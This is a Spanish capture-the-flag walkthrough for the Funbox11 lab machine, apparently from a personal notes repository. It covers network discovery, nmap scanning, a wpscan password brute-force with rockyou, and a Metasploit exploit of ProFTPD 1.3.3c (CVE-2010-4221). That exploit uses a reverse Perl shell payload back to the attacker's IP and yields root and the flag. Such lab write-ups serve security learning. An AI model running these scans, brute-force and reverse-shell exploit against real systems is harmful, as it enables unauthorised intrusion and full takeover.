


- Comenzamos obteniendo la ip de nuestra maquina para buscar las IP dentro de la red y encontrar la maquina victima.
```
ifconfig 
```

- Con " netdiscover " buscaremos los dispositivos conectados al segmento de red de nuestro equipo
	```
	sudo netdiscover -r 192.168.1.0/24
	```

- Con " nmap " buscaremos los puertos y las versiones de los servicios que consumen estos puertos para el análisis de vulnerabilidades.
```
sudo nmap -sV -A 192.168.0.45
```

Encontramos los sigientes puertos:

| Puerto      | Servicio / Protocolo     | ¿Para qué sirve?                                                                                                                                                       |
| ----------- | ------------------------ | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **21/tcp**  | **FTP (ProFTPD 1.3.3c)** | **File Transfer Protocol**: Para transferir archivos. Este servidor (ProFTPD) permite subir/bajar archivos, pero **no cifra los datos**, así que no es seguro sin SSL. |
| **22/tcp**  | **SSH (OpenSSH 7.2p2)**  | **Secure Shell**: Para conectarse de forma remota y segura a otro sistema (por terminal/console). Cifra toda la comunicación.                                          |
| **25/tcp**  | **SMTP (Postfix)**       | **Simple Mail Transfer Protocol**: Para **enviar correos electrónicos**. Postfix es un servidor de correo muy común.                                                   |
| **80/tcp**  | **HTTP (Apache 2.4.18)** | **Hypertext Transfer Protocol**: Para servir páginas web en texto claro (sin cifrado). Apache es el servidor web.                                                      |
| **110/tcp** | **POP3 (Dovecot)**       | **Post Office Protocol v3**: Para **recibir correos**, descargándolos del servidor a tu cliente (como Outlook o Thunderbird).                                          |
| **139/tcp** | **NetBIOS (Samba)**      | Para compartir archivos e impresoras en redes Windows. Usado por **Samba** para comunicación entre Linux y Windows.                                                    |
| **143/tcp** | **IMAP (Dovecot)**       | **Internet Message Access Protocol**: También para recibir correos, pero a diferencia de POP3, **no descarga y borra**, sino que los deja en el servidor.              |
| **445/tcp** | **SMB (Samba)**          | También usado para compartir archivos e impresoras, como 139, pero en versiones más modernas de Windows.                                                               |

- Si intentamos entrar a ver que contiene la web ya que descubrimos que tiene levantado un servidor web en el puerto 80, http://192.168.0.45/:
- Vemos los siguiente:
	- 

	- Tenemos que agregar el nombre del host para visualizar la web, vamos abrir un editor como "nano" a "/etc/hosts" y ponermos la direción IP de la victima y el nombre del host en este caso "funbox11"
		- 192.168.0.45  funbox11
```
sudo nano /et/hosts
```

- Una ves hecho eso vamos a ver la web:
	- 

- Revisando la web y el código podemos encontrar información que quisas sea de utilidad por ejemplo el nombre de un posible usuario "admin" y ademas que a simple vista vemos las peticiones que realisa:
	- 

- Revisando código y realizando una enumeración de directorios con "dirbe" o "dirsearch" vemos que maneja un worpress:
```
sudo dirsearch -u http://funbox11/
```

- Procedemos a realizar un escaneo a wordpress en busca de usuarios y contraseñas, aunque ya teniamos en mente un usuario admin y fue detectado en nuestro escaneo, no pudimos obtener un password:
```
wpscan --url http://funbox11/ — detection-mode aggressive -e u -P /home/hunter/Desktop/rockyou.txt
```

- Entonces vamos a intentar algo más, buscar algun exploit en los puertos abierto que encontramos con nmap.

- Vamos a usar "metasploit":
```
msfconsole
```

- ## CVE-2010-4221 Detail (ProFTPD 1.3.3c)
	- Múltiples desbordamientos de búfer basados ​​en pila en la función pr_netio_telnet_gets en netio.c en ProFTPD anterior a 1.3.3c permiten a atacantes remotos ejecutar código arbitrario a través de vectores que involucran un carácter de escape IAC de TELNET a un servidor (1) FTP o (2) FTPS.
	- https://nvd.nist.gov/vuln/detail/cve-2010-4221

- Dentro de metasploit buscamos un exploit en este caso buscamos para el ftp:
	- 
```
search ProFTPD 1.3.3c
```

- Seleccionamos el exploit, podemos escribir el nombre completo o solo usar el numero:
	- 
```
use 0
```

- Podemos revisar los "payloads" para elegir la carga util:
	- 
```
show payloads
```

- Una ves elegido cual cargaremos, procedemos a cargarla:
	- 
```
set PAYLOAD /cmd/unix/reverse_perl
```

- Y ahora procedemos a colocar la IP de la victima:
	- 
```
set RHost 192.168.0.45
```

- Y ahora ponemos nuestra IP:
	- 
```
set LHost 192.168.0.20
```

- Y procedemos a ejecutar el exploit que al darnos acceso tambien nos permite iniciar como root:
	- 
```
exploit
```

- Usando cat podemos imprimir la flag oculta en el directorio root:
	- 
```
cat /root/root.txt
```
